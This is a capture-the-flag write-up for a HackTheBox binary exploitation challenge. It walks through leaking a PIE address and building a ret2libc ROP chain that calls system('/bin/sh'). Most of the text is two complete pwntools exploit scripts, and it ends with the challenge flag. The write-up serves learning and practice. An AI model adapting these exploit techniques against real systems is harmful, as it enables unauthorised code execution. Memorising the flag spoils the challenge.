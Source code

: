 # Space pirate: Retribution
> Write-up author: jon-brandy
## DESCRIPTION:
We got access to the Admin Panel! The last part of the mission is to change the target location of the missiles. We can probably target Draeger's HQ or some other Golden Fang's spaceships. Draeger's HQ might be out of the scope for now, but we can certainly cause significant damage to his army.

## HINT:
- NONE
## STEPS:
1. In this challenge we're given a 64 bit binary, dynamically linked, not stripped, and a libc library.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/71b7f1fc-7a3a-4800-8be5-f3ea631a6329)


> BINARY PROTECTIONS

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/e19b3a92-ed10-4d5d-9a43-85f23f2a6ce7)


2. After decompiled the binary, it seems there's no interesting function to jump to, seems the concept here is `ret2libc`.
3. Anyway the 2nd option should be our interest.

> 2nd option --> missile_launcher()

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/caa6805d-24a7-4b0f-8f96-0b0b7e0983a8)


4. Let's run the binary then.

> Let's try by send \n --> got unreadable bytes (need to unpack it).

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/135984cb-5f7a-47a0-973d-d10bae44d893)


5. Knowing this result, we can unpack it then format it to hex again, this should be a potential pie leak. Well this challenge is interesting, took me a while to leak the pie and calculate it correctly. Because if we leak it by sending newline, we shall have only 3/4 of the leaked PIE.

> MY WAY TO GET THE FULLY LEAKED PIE

6. I think my solution is kinda unintended, but if it works what can you say. So i tried by sending 7 bytes, why no 8?? Well in c language, we know our input will have \0 at the end. So 7 bytes input shall count as 8. However i tried sending 8 bytes too but resulting to no leaked pie.

> SENDING 7 BYTES

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/8b80ac64-b55e-4b68-8a5c-5f22d4288f1e)


> GETTING PIE_BASE

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/1b63b9df-2582-4f88-9dbd-4fd8ac1177dc)

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/c51d377d-b2cf-4c27-8728-8c8d802b233b)


> CALCULATED PIE BASE - BOTH ARE EQUAL

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/870f8e25-419f-4be3-9b7a-2d7093a18acc)


> PIE_BASE SCRIPT

```py
from pwn import *
import os 
os.system('clear')

def start(argv=[], *a, **kw):
    if args.REMOTE:
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:
        return process([exe] + argv, *a, **kw)

exe = './sp_retribution'
elf = context.binary = ELF(exe, checksec=True)
context.log_level = 'DEBUG'

library = './glibc/libc.so.6'
libc = context.binary = ELF(library, checksec=False)

sh = start()
pause()
sh.sendlineafter(b'>> ', b'2')
# sending 7 bytes remembering there's null bytes so will be exact 8.
sh.sendlineafter(b'= ', b'AAAAAAA') 

## GRABBING PIE
sh.recvuntil(b'y = AAAAAAA\n')
get = sh.recvline().strip()
print('THIS IS -->',get)

leak = unpack(get.ljust(8,b'\x00'))
#print(leak)
log.success('LEAKED PIE --> %#0x', leak)
elf.address = leak - 3440
log.success('Calculated pie_base --> %#0x', elf.address)

sh.interactive()
```


> FINAL SCRIPT

```py
from pwn import *
import os 
os.system('clear')

def start(argv=[], *a, **kw):
    if args.REMOTE:
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:
        return process([exe] + argv, *a, **kw)

exe = './sp_retribution'
elf = context.binary = ELF(exe, checksec=True)
context.log_level = 'DEBUG'

library = './glibc/libc.so.6'
libc = context.binary = ELF(library, checksec=False)

sh = start()
#pause()
sh.sendlineafter(b'>> ', b'2')
# sending 7 bytes remembering there's null bytes so will be exact 8.
sh.sendlineafter(b'= ', b'AAAAAAA') 

sh.recvuntil(b'y = AAAAAAA\n')
get = sh.recvline().strip()
print('THIS IS -->',get)

leak = unpack(get.ljust(8,b'\x00'))
#print(leak)
log.success('LEAKED PIE --> %#0x', leak)
elf.address = leak - 3440
log.success('Calculated pie_base --> %#0x', elf.address)

pop_rdi = 0x0000000000000d33
log.success('pop_rdi_gadget --> %#0x', pop_rdi)

calc_rdi = elf.address + pop_rdi
log.success('Calculated pop_rdi gadget --> %#0x', calc_rdi)

padding = 88
p = flat([
    asm('nop') * padding,
    calc_rdi,
    elf.got['puts'],
    elf.plt['puts'],
    elf.sym['main']
])

sh.sendlineafter(b':', p)

sh.recvline()
sh.recvline()

get = sh.recvline().strip()
#print('PUTS -->',get)

leaked_puts = unpack(get.ljust(8,b'\x00'))
log.success('LEAKED PUTS --> %#0x', leaked_puts)

libc.address = leaked_puts - 456352
log.info('LIBC BASE --> %#0x', libc.address)

pay = flat([
    asm('nop') * padding,
    calc_rdi,
    next(libc.search(b'/bin/sh')),
    libc.sym['system']
])

sh.sendlineafter(b'>>', b'2')
sh.sendlineafter(b'y =', b'')
sh.sendlineafter(b':', pay) 

sh.interactive()
```

> RESULT

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/52e1d270-128a-4a2c-9d88-b48edcd6792a)


## FLAG
```
HTB{w3_f1n4lly_m4d3_1t}
```
